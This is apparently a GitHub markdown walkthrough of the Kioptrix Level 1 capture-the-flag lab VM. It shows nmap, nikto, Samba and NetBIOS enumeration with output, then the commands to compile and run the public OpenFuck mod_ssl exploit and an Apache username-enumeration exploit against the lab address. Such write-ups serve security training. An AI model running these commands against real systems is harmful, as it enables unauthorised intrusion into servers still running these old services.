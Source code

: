 # Walkthrough: [Kioptrix Level 1](https://www.vulnhub.com/entry/kioptrix-level-1-1,22/)
## Video Guide: [Youtube link](https://youtu.be/BX6csKuY4dw)

## Table of Contents

- [Enumeration](#enumeration)
- [Penetration & Privilege Escelation](#penetration--privilege-escelation)
- [Bonus](#bonus)
	- [Bruteforce](#brute-force)
	- [Intresting Files](#intresting-files)

## Enumeration
- VM IP: `sudo netdiscover`

	* `VMWare 192.168.0.14`
  
- VM info: `nmap -A -T4 -v 192.168.0.14`

  * <pre>
    22/tcp   open  ssh         OpenSSH 2.9p2 (protocol 1.99)
    80/tcp   open  http        Apache httpd 1.3.20 ((Unix)  (Red-Hat/Linux) mod_ssl/2.8.4 OpenSSL/0.9.6b)
    111/tcp  open  rpcbind     2 (RPC #100000)
    139/tcp  open  netbios-ssn Samba smbd (workgroup: MYGROUP)
    443/tcp  open  ssl/https   Apache/1.3.20 (Unix)  (Red-Hat/Linux) mod_ssl/2.8.4 OpenSSL/0.9.6b
    1024/tcp open  status      1 (RPC #100024)
    </pre>
    
- Web Server Directory: `dirb -w http://192.168.0.14`

	* Default apache pages/settings.  
  
- Web Server Vurnerabilities: `nikto -h 192.168.0.14`

  * <pre>
    OSVDB-637: Enumeration of users is possible by requesting ~username (responds with 'Forbidden' for users, 'not found' for non-existent users).
    OSVDB-756.mod_ssl/2.8.4, CVE-2002-0082: mod_ssl 2.8.7 and lower are vulnerable to a remote buffer overflow which may allow a remote shell (difficult to exploit).
    OSVDB-3092: Files found:/test.php
    </pre>
  * [/test.php link](#intresting-files)
    
- Samba info:

  * `smbclient -L 192.168.0.14` **<--- Anon login available**  
  
    <pre>
    IPC$            IPC       IPC Service (Samba Server)
    ADMIN$          IPC       IPC Service (Samba Server)

    Server               Comment
    ---------            -------
    ANTON                Anton server (Samba, Ubuntu)
    KIOPTRIX             Samba Server
    
    Workgroup            Master
    ---------            -------
    MYGROUP              ANTON
    </pre>
  * `enum4linux -a -v 192.168.0.14`

- NetBIOS info: `sudo nbtscan -v 192.168.0.14`
  
  * <pre>
    NetBIOS Name Table for Host 192.168.0.14:

    Incomplete packet, 191 bytes long.
    Name             Service          Type             
    ----------------------------------------
    KIOPTRIX         <00>             UNIQUE
    KIOPTRIX         <03>             UNIQUE
    KIOPTRIX         <20>             UNIQUE
    MYGROUP          <00>              GROUP
    MYGROUP          <1e>              GROUP

    Adapter address: 00:00:00:00:00:00
    </pre>

## Penetration & Privilege Escelation
- Nikto revealed a [ssl vurnerability](https://www.exploit-db.com/exploits/47080)
	* Download and compile the exploit:   
	`cd ~/Downloads/ && sudo apt-get install libssl-dev && gcc -o OpenFuck 47080.c -lcrypto`
	* Run the exploit: `./OpenFuck 0x6b 192.168.0.14 443`
---

## Bonus

### Brute Force
- Nikto revealed an Apache vurnerability (https://www.exploit-db.com/exploits/21112) which releaves usernames that exist on the vulnerable system.
	* Download the exploit from: https://www.exploit-db.com/exploits/21112
	* Run the exploit: `./21112.php <host> <userlist> <delay>`
	
### Intresting Files
- /test.php:
  ```
  <?php4

    print "TEST";

  ?>
  ```
